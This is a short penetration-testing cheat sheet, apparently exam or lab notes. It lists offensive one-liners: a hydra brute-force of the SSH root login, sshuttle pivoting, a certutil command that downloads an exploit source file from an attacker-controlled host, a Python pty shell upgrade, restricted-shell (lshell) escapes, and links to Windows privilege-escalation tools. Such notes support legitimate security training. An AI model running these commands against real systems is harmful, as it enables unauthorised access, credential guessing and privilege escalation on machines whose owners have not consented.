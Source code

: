 hydra -l root -P password-file.txt 10.11.1.219 ssh 
  

# SSHUTTLE

sshuttle -vr sean@10.11.1.251 10.1.1.0/24 

 
# Certutil

certutil -URLCache -split -f http://10.10.14.17:8000/40564.c 
 
# XTERM

export TERM=xterm 

 
# Full Interactive Shell for use with VIM/NANO

python -c "import pty;pty.spawn('/bin/bash')" 

Ctrl-z 

Stty raw –echo 

Fg <enter> 


# Escape Lshell

echo && 'bash' 

echo || 'bash' 

https://github.com/ghantoos/lshell/issues/147 


# SSHuttle and SSH TUNNELING

https://www.reddit.com/r/HowToHack/comments/77vu7t/sshuttle_for_pivoting_with_nmap_scans/dow0fz9/ 

 
# Windows Priv Check

https://github.com/pentestmonkey/windows-privesc-check 

https://github.com/GDSSecurity/Windows-Exploit-Suggester 


# Reference Guides

